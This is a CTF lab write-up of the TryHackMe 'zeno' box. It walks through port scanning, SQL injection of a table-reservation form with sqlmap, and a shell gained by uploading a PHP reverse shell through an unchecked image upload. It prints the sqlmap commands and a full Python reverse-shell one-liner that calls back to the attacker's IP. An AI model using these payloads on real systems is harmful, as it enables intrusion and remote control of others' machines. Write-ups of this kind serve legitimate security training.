









<div class="callout callout-info">

**Box Info**

**Platform:** TryHackMe, **OS:** Linux (CentOS), **Difficulty:** Medium, **IP:** 10.10.30.130

</div>

<div class="callout callout-abstract">

**Attack Path**

1. Web server on **port 12340**, a "Restaurant Management System" (RMS).
2. The "reserve a table" form is injectable, capture the request and feed it to **sqlmap** to dump the `dbrms` database.
3. Upload a PHP reverse shell through the RMS image-upload feature → RCE → shell.

</div>

## Reconnaissance

```console
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
```

That initial scan looked deceptively quiet, so rather than trust a default top-1000 port list I kicked off a full-range scan next, and it paid off immediately: the actual web server turned out to be sitting on a high, non-standard port.

```console
PORT      STATE SERVICE VERSION
12340/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-enum:
|_  /icons/: Potentially interesting folder w/ directory listing
| http-trace: TRACE is enabled
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
```

Before going further I mapped `zeno.thm → 10.10.30.130` in `/etc/hosts`, since the Restaurant Management System referenced its own vanity hostname internally and I wanted every request to resolve cleanly against it.





## SQL Injection, sqlmap

Once I was logged in, the **Reserve a Table** form immediately stood out as the most promising place to test for injection, since it collects several fields of user-supplied data that almost certainly land in a booking query on the backend. I filled out every field, intercepted the resulting POST request in Burp, saved it as a request file, and handed it straight to sqlmap rather than trying to identify the injectable parameter by hand:

```bash
sqlmap -r reserve.req --batch --dbs
sqlmap -r reserve.req --batch -D dbrms --tables
```

## Foothold, PHP reverse shell upload

The database dump gave me application data but nothing that translated directly into code execution, so I turned to the RMS's image upload feature next. It didn't validate the uploaded file type at all, so I uploaded a PHP reverse shell disguised as an image and browsed straight to its stored location to trigger it:

```text
http://zeno.thm:12340/rms/images/reverse-shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.82.121",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

With a listener already running, hitting that URL was all it took, the payload fired and I caught a shell back on my end.











That confirmed remote code execution and gave me a working foothold on the box, and it took nothing more elaborate than the RMS's own unrestricted upload form to get there.




